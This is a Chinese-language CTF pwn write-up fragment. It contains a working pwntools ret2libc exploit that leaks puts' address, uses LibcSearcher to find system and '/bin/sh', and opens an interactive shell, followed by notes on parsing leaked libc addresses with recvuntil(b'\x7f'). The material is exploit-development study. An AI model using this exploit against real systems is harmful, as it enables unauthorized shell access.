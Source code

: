  ```python
payload =b'a'*offset
payload=payload+p64(pop_rdi)
payload=payload+p64(puts_got)
payload=payload+p64(puts_plt)
payload=payload+p64(main)
r.sendlineafter(' me?',payload)
puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
print(hex(puts_addr))
libc = LibcSearcher('puts',puts_addr)
Offset = puts_addr - libc.dump('puts')
binsh = Offset+libc.dump('str_bin_sh')
system = Offset+libc.dump('system')
r.sendlineafter('your name','aaa')
payload = b'a'*offset
payload=payload+p64(ret)
payload=payload+p64(pop_rdi)
payload=payload+p64(binsh)
payload=payload+p64(system)
r.sendlineafter('me?',payload)
r.interactive()
 ```
 之前由于不理解，一直用的是
 ```python
 u64(r.recvuntil('\n')[:-1].ljust(8,b'\0'))
 ```
 这段代码的意思是，尝试接收输出，直到遇到换行符 \n，然后去掉这个换行符，将剩余部分补齐至 8 字节并解析为地址，但是在二进制漏洞利用中，程序输出可能包含​​非地址信息​​（例如，调试信息、其他函数的多余输出等）。如果这些额外数据被 recvuntil('\n')接收并包含在字符串中，u64尝试将无效数据解析为地址就会失败，导致后续计算全部错误
 这道题用这个便导致后面的计算全部有问题
 ```python
puts_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00'))
 ```
 >r.recvuntil(b'\x7f'):持续接收数据，直到遇到字节 \x7f。在 ​​64 位 Linux 系统​​中，libc 地址的​​典型特征是高字节以 \x7f开头​​（例如，常见的地址形式是 0x7fxxxxxxxxxx）。这是一个非常显著的特征

 >[-6:]: 字节取最后接收到的 6 个字节。因为 \x7f是地址的最高位字节（在 Little-Endian 字节序下，它出现在地址数据的末尾），它之后的 6 个字节很可能就是地址的有效低位部分。

 >.ljust(8, b'\x00')：将这 6 个字节左对齐补齐到 8 字节，并用 \x00填充高位。这是因为 64 位地址是 8 字节的，而 u64函数需要 8 字节的数据来解析。

 方法二：
骗人的，没有第二种方法
![alt text](image-15.png)
网上的name是具有可执行权限的，而我查出来的是没有的
